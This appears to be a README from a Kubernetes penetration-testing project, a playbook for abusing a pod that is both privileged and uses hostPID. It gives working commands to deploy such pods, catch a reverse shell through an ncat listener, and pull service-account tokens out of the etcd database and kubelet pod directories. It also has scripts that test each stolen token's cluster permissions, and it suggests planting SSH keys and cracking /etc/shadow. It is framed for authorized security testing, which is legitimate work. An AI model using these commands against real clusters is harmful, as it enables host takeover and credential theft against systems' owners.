

# Bad Pod #2: Privileged and hostPID


In this scenario, the only thing that changes from the everything-allowed pod is how you gain root access to the host. Rather than chrooting to the host’s filesystem, you can use `nsenter` to get a root shell on the node running your pod.  

Why does it work? 

* **Privileged** - The `privileged: true`  container-level security context breaks down almost all the walls that containers are supposed to provide. The PID namespace is one of the few walls that stands, however. Without `hostPID`, `nsenter` would only work to enter the namespaces of a process running within the container. For more examples on what you can do if you only have privileged: true, refer to the next example Bad Pod #3: Privileged Only. 
* **Privileged + hostPID** - When both `hostPID: true` and `privileged: true` are set, the pod can see all of the processes on the host, and you can enter the init system (PID 1) on the host, and execute your shell on the node. 
  
Once you are root on the host, the privilege escalation paths are all the same as described in Bad Pod # 1: Everything-allowed

## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Can you run your pod on a control-plane node](#can-you-run-your-pod-on-a-control-plane-node)
    - [Read secrets from etcd](#read-secrets-from-etcd)
  - [Look for kubeconfigs in the host filesystem](#look-for-kubeconfigs-in-the-host-filesystem)
  - [Grab all tokens from all pods on the system](#grab-all-tokens-from-all-pods-on-the-system)
  - [Some other ideas](#some-other-ideas)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
kubectl exec -it priv-and-hostpid-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/[RESOURCE_TYPE]/priv-and-hostpid-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep priv-and-hostpid-exec-[RESOURCE_TYPE]      
kubectl exec -it priv-and-hostpid-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe priv-and-hostpid-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/priv-and-hostpid/[RESOURCE_TYPE]/priv-and-hostpid-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
kubectl delete pod priv-and-hostpid-exec-pod
kubectl delete cronjob priv-and-hostpid-exec-cronjob
```

# Post exploitation

## Can you run your pod on a control-plane node
The pod you created above was likely scheduled on a worker node. Before jumping into post exploitation on the worker node, it is worth seeing if you run your a pod on a control-plane node. If you can run your pod on a control-plane node using the nodeName selector in the pod spec, you might have easy access to the etcd database, which contains all of the configuration for the cluster, including all secrets. This is not a possible on cloud managed Kubernetes clusters like GKE and EKS - they hide the control-plane. 

**Get nodes**
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

**Pick your manifest, uncomment and update the nodeName field with the name of the control-plane node**
```
nodeName: k8s-control-plane
```
**Create your pod**
```
kubectl apply -f manifests/priv-and-hostpid/job/priv-and-hostpid-exec-job.yaml
```

### Read secrets from etcd
If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets. 

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion. 

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
Output:
```
data-dir=/var/lib/etcd
```
**View the data in etcd database:**
```
strings /var/lib/etcd/member/snap/db | less
```

**Extract the tokens from the database and show the service account name**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
Output:
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```


## Look for kubeconfigs in the host filesystem 

By default, nodes don't have `kubectl` installed. If you are lucky though, an administrator tried to make their life (and yours) a little easier by installing `kubectl` and their highly privileged credentials on the node. We're not so lucky on this GKE node 

**Some ideas:**
```bash
find / -name kubeconfig
find / -name .kube
grep -R "current-context" /home/
grep -R "current-context" /root/
```

## Grab all tokens from all pods on the system
You can access any secret mounted within any pod on the node you are on. In a production cluster, even on a worker node, there is usually at least one pod that has a mounted *token* that is bound to a *service account* that is bound to a *clusterrolebinding*, that gives you access to do things like create pods or view secrets in all namespaces. 

Look for tokens that have permissions to get secrets in kube-system. The examples below automate this process for you a bit:

**Simply list the namespace and location of every token**
```bash
kubectl exec -it priv-and-hostpid-exec-pod -- bash
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; \
for token in $tokens; \
do parent_dir="$(dirname "$token")"; \
namespace=`cat $parent_dir/namespace`; \
echo $namespace "|" $token ; \
done | sort
```

**What does `can-they.sh` do?**

* Takes the pod name and namespace as input
* Grabs all of the tokens from `/var/lib/kubelet/pods/*` on the host
* Loops each token against the `selfsubjectaccessreviews` endpoint: `kubectl --token=$token auth can-i [$user-input]`


**Run `can-they.sh` where you have kubectl installed and NOT from within the priv pod**
```
./can-they.sh
./can-they.sh -i "--list -n kube-system"
./can-they.sh -i "--list -n default"
./can-they.sh -i "list secrets -n kube-system"
./can-they.sh -i "create pods -n kube-system"
./can-they.sh -i "create clusterrolebindings"
```

**Example Run on kubeadm cluster showing that the kubevol-token can list secrets in kube-system**
```
./can-they.sh -n development -p priv-and-hostpid-exec-pod -i "get secrets -n kube-system"
--------------------------------------------------------
Token Location: /var/lib/kubelet/pods/21b0eb3f-b99e-40ed-bedf-198c77dfc101/volumes/kubernetes.io~secret/kubevol-token-xfjgv/token
Can I get secrets -n kube-system?
yes

--------------------------------------------------------
Token Location: /var/lib/kubelet/pods/75c4da2c-29ef-41c2-bc66-5994a690abd0/volumes/kubernetes.io~secret/default-token-qqgjc/token
Can I get secrets -n kube-system?
no
...omitted for brevity...
```


*Run this where you have kubectl installed and NOT from within the priv pod.*
```
tokens=`kubectl exec -it priv-and-hostpid-exec-pod -- find /var/lib/kubelet/pods/ -name token -type l`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-and-hostpid-exec-pod -- cat $filename_clean`; \
echo -n "What can I do? "; \
kubectl --token=$tokena auth can-i --list; echo; \
done
```
This is what just happened:
* From outside the pod, you execute `kubectl exec` to find all of the token locations on the host
* You then iterate through the list of filenames, and
  * Print the token location
  * Run `kubectl auth can-i list` using each token via the `--token` command line argument. 
* This gives you a list of the actions each token can perform cluster wide. 
  
The next command will do the same thing, but just in the kube-system namespace. 

**Run kubectl can-i --list -n kube-system against ALL tokens found on the node**

*Run this where you have kubectl installed, and NOT from within the priv pod.*
```
tokens=`kubectl exec -it priv-and-hostpid-exec-pod -- find /var/lib/kubelet/pods/ -name token -type l`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-and-hostpid-exec-pod -- cat $filename_clean`; \
echo -n "What can I do? "; \
kubectl --token=$tokena auth can-i --list -n kube-system; echo; \
done
```

**Can any of the tokens:**
* Create a pod, deployment, etc. in the kube-system namespace?
* Create a role in the kube-system namespace?
* View secrets in the kube-system namespace?
* Create clusterrolebindings? 

You are looking for a way to access to all resources in all namespaces.


## Some other ideas
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster


# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# References and further reading: 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell
* [Secure Kubernetes - KubeCon NA 2019 CTF](https://securekubernetes.com/)
* Command and KubeCTL: Real-World Kubernetes Security for Pentesters - [Talk](https://www.youtube.com/watch?v=cRbHILH4f0A) / [Blog](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/)
* Compromising Kubernetes Cluster by Exploiting RBAC Permissions - [Talk](https://www.youtube.com/watch?v=1LMo0CftVC4) / [Slides](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf)
* The Path Less Traveled: Abusing Kubernetes Defaults - [Talk](https://www.youtube.com/watch?v=HmoVSmTIOxM) / [Repository](https://github.com/mauilion/blackhat-2019)
  
